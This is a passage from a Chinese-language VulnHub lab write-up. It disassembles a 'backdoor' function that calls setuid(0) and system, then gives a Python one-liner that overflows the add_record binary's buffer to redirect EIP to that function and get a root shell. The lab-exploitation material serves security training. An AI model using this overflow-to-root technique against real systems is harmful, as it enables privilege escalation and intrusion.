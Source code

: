 发现了一个可疑函数backdoor,查看其汇编代码：

```plain
gdb-peda$ disas backdoor
Dump of assembler code for function backdoor:
   0x08048676 <+0>: push   ebp
   0x08048677 <+1>: mov    ebp,esp
   0x08048679 <+3>: push   ebx
   0x0804867a <+4>: sub    esp,0x4
   0x0804867d <+7>: call   0x80485b0 <__x86.get_pc_thunk.bx>
   0x08048682 <+12>:    add    ebx,0x16c6
   0x08048688 <+18>:    sub    esp,0xc
   0x0804868b <+21>:    push   0x0
   0x0804868d <+23>:    call   0x8048530 <setuid@plt>
   0x08048692 <+28>:    add    esp,0x10
   0x08048695 <+31>:    sub    esp,0xc
   0x08048698 <+34>:    lea    eax,[ebx-0x13f8]
   0x0804869e <+40>:    push   eax
   0x0804869f <+41>:    call   0x80484f0 <system@plt>
   0x080486a4 <+46>:    add    esp,0x10
   0x080486a7 <+49>:    nop
   0x080486a8 <+50>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080486ab <+53>:    leave  
   0x080486ac <+54>:    ret    
End of assembler dump.
```

backdoor调用了setuid和system函数，也许能够获取到root权限的shell，那么目标就变成了将backdoor的函数地址0x08048676溢出到EIP上。

按照要求编写输入字符串：

```plain
python -c "import struct;print('1\n1\n1\n1\n'+'A'*62+struct.pack('I',0x08048676))" > payload
cat payload - | ./add_record
```

[![](assets/1699406763-19d12ca11eae46692fde8fc236ec813f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104550-c3361454-7d17-1.png)

将得到的payload作为输入执行add\_record程序后成功获取root权限

## 总结

这个vulnhub靶机环境比较综合，涉及Web及二进制两个方面，在专注一个方向的同时，需要能够对另一个方向有基本的认识与了解。在对目标进行测试时，需要抓住一切可能利用的二进制程序代码。
